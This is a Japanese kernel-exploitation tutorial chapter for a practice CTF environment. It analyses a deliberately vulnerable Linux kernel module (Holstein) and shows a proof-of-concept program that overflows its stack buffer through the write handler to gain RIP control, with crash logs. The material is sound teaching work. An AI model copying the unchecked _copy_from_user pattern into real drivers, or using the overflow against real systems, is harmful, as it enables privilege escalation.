


LK01(Holstein)の章ではKernel Exploitの基礎的な攻撃手法について学びます。導入の章でLK01をダウンロードしていない方は、まず[練習問題LK01](distfiles/LK01.tar.gz)のファイルをダウンロードしてください。

`qemu/rootfs.cpio`がファイルシステムになります。ここでは`mount`ディレクトリを作って、そこにcpioを展開しておきます。（root権限で作成してください。）

<div class="column" title="目次">
<!-- toc --><br>
</div>

## 初期化処理の確認
まず`/init`というファイルがありますが、これはカーネルロード後、最初にユーザー空間で実行される処理になります。CTFなどではここにカーネルモジュールのロード等の処理が書かれている場合もあるので、必ずチェックしましょう。
今回は`/init`はbuildroot標準のもので、モジュールのロード等の処理は`/etc/init.d/S99pawnyable`に記載しています。
```sh
#!/bin/sh

##
## Setup
##
mdev -s
mount -t proc none /proc
mkdir -p /dev/pts
mount -vt devpts -o gid=4,mode=620 none /dev/pts
chmod 666 /dev/ptmx
stty -opost
echo 2 > /proc/sys/kernel/kptr_restrict
#echo 1 > /proc/sys/kernel/dmesg_restrict

##
## Install driver
##
insmod /root/vuln.ko
mknod -m 666 /dev/holstein c `grep holstein /proc/devices | awk '{print $1;}'` 0

##
## User shell
##
echo -e "\nBoot took $(cut -d' ' -f1 /proc/uptime) seconds\n"
echo "[ Holstein v1 (LK01) - Pawnyable ]"
setsid cttyhack setuidgid 1337 sh

##
## Cleanup
##
umount /proc
poweroff -d 0 -f
```
ここで重要になる行がいくつかあります。まず
```sh
echo 2 > /proc/sys/kernel/kptr_restrict
```
ですが、これは既に学んだ通りKADRを制御するコマンドで、KADRが有効になっていることが分かります。これはデバッグでは邪魔なので無効化しておきましょう。
次にコメントアウトされている
```sh
#echo 1 > /proc/sys/kernel/dmesg_restrict
```
ですが、これはCTFの問題では多くの場合有効になっています。意味は一般ユーザーにdmesgを許可するかです。今回は練習なのでdmesgは許可しています。

次に
```sh
insmod /root/vuln.ko
mknod -m 666 /dev/holstein c `grep holstein /proc/devices | awk '{print $1;}'` 0
```
でカーネルモジュールをロードしています。
`insmod`コマンドで`/root/vuln.ko`というモジュールをロードし、その後`mknod`で`/dev/holstein`というキャラクタデバイスファイルに`holstein`という名前のモジュールを紐づけています。

最後に
```sh
setsid cttyhack setuidgid 1337 sh
```
ですが、これはユーザーIDを1337にして`sh`を実行しています。ログインプロンプトなしでシェルが起動するのは、このコマンドのおかげです。

デバッグの際は、このユーザーIDを0にしておけばrootのシェルが取れるので、まだ例題を済ませていない方は変更しておいてください。

また、`/etc/init.d`には他にも`S01syslogd`や`S41dhcpcd`などの初期化スクリプトがあります。これらはネットワークの設定などをしますが、今回のexploitではデバッグの際は必要無いので別のディレクトリに移動するなどして、呼び出されないようにすることをおすすめします。これにより起動時間が数秒速くなります。
ディレクトリには`rcK`, `rcS`, `S99pawnyable`が残る状態になっていればOKです。

## Holsteinモジュールの解析
この章ではHolsteinと名付けられた脆弱なカーネルモジュールを題材にKernel Exploitを学びます。`src/vuln.c`にカーネルモジュールのソースコードがあるので、まずはこれを読んでいきましょう。

### 初期化と終了
カーネルモジュールを書く際は、必ず初期化と終了処理を書きます。
108行目で
```c
module_init(module_initialize);
module_exit(module_cleanup);
```
と記述されていますが、ここでそれぞれ初期化、終了処理の関数を指定しています。まずは初期化の`module_initialize`を読んでみましょう。
```c
static int __init module_initialize(void)
{
  if (alloc_chrdev_region(&dev_id, 0, 1, DEVICE_NAME)) {
    printk(KERN_WARNING "Failed to register device\n");
    return -EBUSY;
  }

  cdev_init(&c_dev, &module_fops);
  c_dev.owner = THIS_MODULE;

  if (cdev_add(&c_dev, dev_id, 1)) {
    printk(KERN_WARNING "Failed to add cdev\n");
    unregister_chrdev_region(dev_id, 1);
    return -EBUSY;
  }

  return 0;
}
```
ユーザー空間からカーネルモジュールを操作できるようにするためには、インタフェースを作成する必要があります。インタフェースは`/dev`や`/proc`に作られることが多く、今回は`cdev_add`を使っているのでキャラクタデバイス`/dev`を介して操作するタイプのモジュールになります。といってもこの時点で`/dev`以下にファイルが作られる訳ではありません。先程`S99pawnyable`で見たように、`/dev/holstein`は`mknod`コマンドで作られていました。

さて、`cdev_init`という関数の第二引数に`module_fops`という変数のポインタを渡しています。この変数は関数テーブルで、`/dev/holstein`に対して`open`や`write`等の操作があった際に、対応する関数が呼び出されるようになっています。
```c
static struct file_operations module_fops =
  {
   .owner   = THIS_MODULE,
   .read    = module_read,
   .write   = module_write,
   .open    = module_open,
   .release = module_close,
  };
```
このモジュールでは`open`, `read`, `write`, `close`の4つに対する処理のみを定義しており、その他は未実装（呼んでも何も起きない）となっています。

最後に、モジュールの解放処理は単にキャラクタデバイスを削除しているだけです。
```c
static void __exit module_cleanup(void)
{
  cdev_del(&c_dev);
  unregister_chrdev_region(dev_id, 1);
}
```

### open
`module_open`を見てみましょう。
```c
static int module_open(struct inode *inode, struct file *file)
{
  printk(KERN_INFO "module_open called\n");

  g_buf = kmalloc(BUFFER_SIZE, GFP_KERNEL);
  if (!g_buf) {
    printk(KERN_INFO "kmalloc failed");
    return -ENOMEM;
  }

  return 0;
}
```
`printk`という見慣れない関数がありますが、これは文字列をカーネルのログバッファに出力します。`KERN_INFO`というのはログレベルで、他にも`KERN_WARN`等があります。出力は`dmesg`コマンドで確認できます。

次に`kmalloc`という関数を呼んでいます。
これはカーネル空間における`malloc`で、ヒープから指定したサイズの領域を確保できます。今回は`char*`型のグローバル変数`g_buf`に`BUFFER_SIZE`(=0x400)バイトの領域を確保しています。

このモジュールを`open`すると0x400バイトの領域を`g_buf`に確保することが分かりました。

### close
次に`module_close`を見ます。
```c
static int module_close(struct inode *inode, struct file *file)
{
  printk(KERN_INFO "module_close called\n");
  kfree(g_buf);
  return 0;
}
```
`kfree`は`kmalloc`と対応し、`kmalloc`で確保したヒープ領域を解放します。
一度ユーザーに`open`されたモジュールは最終的には必ず`close`されるので、最初に確保した`g_buf`を解放するというのは自然な処理です。（ユーザー空間のプログラムが明示的に`close`を呼ばなくても、そのプログラムが終了する際にカーネルが自動的に`close`を呼び出します。）

実はこの段階で既にLPEに繋がる脆弱性があるのですが、それは後の章で扱います。

### read
`module_read`はユーザーが`read`システムコール等を呼び出した際に呼ばれる処理です。
```c
static ssize_t module_read(struct file *file,
                        char __user *buf, size_t count,
                        loff_t *f_pos)
{
  char kbuf[BUFFER_SIZE] = { 0 };

  printk(KERN_INFO "module_read called\n");

  memcpy(kbuf, g_buf, BUFFER_SIZE);
  if (_copy_to_user(buf, kbuf, count)) {
    printk(KERN_INFO "copy_to_user failed\n");
    return -EINVAL;
  }

  return count;
}
```
`g_buf`から`BUFFER_SIZE`だけ`kbuf`というスタックの変数に`memcpy`でコピーしています。
次に、`_copy_to_user`という関数を呼んでいます。SMAPの節で既に説明しましたが、これはユーザー空間に安全にデータをコピーする関数です。`copy_to_user`ではなく`_copy_to_user`になっていますが、これはスタックオーバーフローを検知しないバージョンの`copy_to_user`になります。通常は使われませんが、今回は脆弱性を入れるために使っています。

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
    <code>copy_to_user</code>や<code>copy_from_user</code>はインライン関数で、可能な場合サイズチェックをするようになっているよ。
  </p>
</div>

ということで、`read`関数は`g_buf`から一度スタックにデータをコピーし、そのデータを要求したサイズだけ読み込む処理になります。

### write
最後に`module_write`を読みましょう。
```c
static ssize_t module_write(struct file *file,
                            const char __user *buf, size_t count,
                            loff_t *f_pos)
{
  char kbuf[BUFFER_SIZE] = { 0 };

  printk(KERN_INFO "module_write called\n");

  if (_copy_from_user(kbuf, buf, count)) {
    printk(KERN_INFO "copy_from_user failed\n");
    return -EINVAL;
  }
  memcpy(g_buf, kbuf, BUFFER_SIZE);

  return count;
}
```
まず`_copy_from_user`でユーザー空間からデータを`kbuf`というスタック変数にコピーしています。（これもスタックオーバーフローを検知しないバージョンの`copy_from_user`です。）最後に`memcpy`で`g_buf`に最大`BUFFER_SIZE`だけ`kbuf`からデータをコピーしています。

## スタックオーバーフロー脆弱性
さて、カーネルモジュールを一通り読み終えましたが、いくつの脆弱性を見つけられたでしょうか。
Kernel Exploitに挑戦するような方なら少なくとも1つは脆弱性を見つけたかと思います。この節では次の箇所にあるスタックオーバーフローの脆弱性を扱います。
```c
static ssize_t module_write(struct file *file,
                            const char __user *buf, size_t count,
                            loff_t *f_pos)
{
  char kbuf[BUFFER_SIZE] = { 0 };

  printk(KERN_INFO "module_write called\n");

  if (_copy_from_user(kbuf, buf, count)) {
    printk(KERN_INFO "copy_from_user failed\n");
    return -EINVAL;
  }
  memcpy(g_buf, kbuf, BUFFER_SIZE);

  return count;
}
```
9行目でコピーするサイズ`count`はユーザーから渡ってくるのに対し、`kbuf`は0x400バイトなので自明なスタックバッファオーバーフローがあります。カーネル空間でも関数呼び出しの仕組みはユーザー空間と同じなので、リターンアドレスを書き換えたりROP chainを実行したりできます。

## 脆弱性の発火
脆弱性を悪用する前に、このカーネルモジュールを普通に使うプログラムを書いて、動作することを確認しましょう。今回は次のようなプログラムを書いてみました。
```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>

void fatal(const char *msg) {
  perror(msg);
  exit(1);
}

int main() {
  int fd = open("/dev/holstein", O_RDWR);
  if (fd == -1) fatal("open(\"/dev/holstein\")");

  char buf[0x100] = {};
  write(fd, "Hello, World!", 13);
  read(fd, buf, 0x100);

  printf("Data: %s\n", buf);

  close(fd);
  return 0;
}
```
`write`で"Hello, World!"と書き込んで、それを`read`で読むだけのプログラムです。
これをカーネル上で実行してみましょう。

<center>
  
</center>

期待通りに動いていることが分かります。また、カーネルモジュールが出したログを確認しても特にエラーは発生していません。

次にスタックオーバーフローを発生させてみます。こんな感じで良いでしょう。
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>

void fatal(const char *msg) {
  perror(msg);
  exit(1);
}

int main() {
  int fd = open("/dev/holstein", O_RDWR);
  if (fd == -1) fatal("open(\"/dev/holstein\")");

  char buf[0x800];
  memset(buf, 'A', 0x800);
  write(fd, buf, 0x800);

  close(fd);
  return 0;
}
```
実行します。

<center>
  
</center>

何やら禍々しいメッセージが出力されました。
このようにカーネルモジュールが異常な処理を起こすと通常カーネルごと落ちてしまいます。その際クラッシュした原因と、クラッシュ時のレジスタの様子やスタックトレースが出力されます。この情報はKernel Exploitのデバッグで非常に重要です。

今回クラッシュの原因は
```
BUG: stack guard page was hit at (____ptrval____) (stack is (____ptrval____)..(____ptrval____))
kernel stack overflow (page fault): 0000 [#1] PREEMPT SMP PTI
```
となっています。`ptrval`というのはポインタですが、KADRにより隠されています。
レジスタの様子で気になるのはRIPですが、残念ながら0x414141414141414141にはなっていません。
```
RIP: 0010:memset_orig+0x33/0xb0
```
クラッシュの原因にも書かれているように、`copy_from_user`での書き込みの際にスタックの終端（guard page）に到達してしまったようです。書き込みすぎが原因なので、書き込む量を減らしてみましょう。
```c
write(fd, buf, 0x420);
```
するとクラッシュメッセージが変わります。

<center>
  
</center>

今度はgeneral protection faultになり、RIPが取れています！
```
RIP: 0010:0x4141414141414141
```
このように、カーネル空間でもユーザー空間と同様にスタックオーバーフローでRIPを取れます。次の節ではここから権限昇格する方法について学びます。
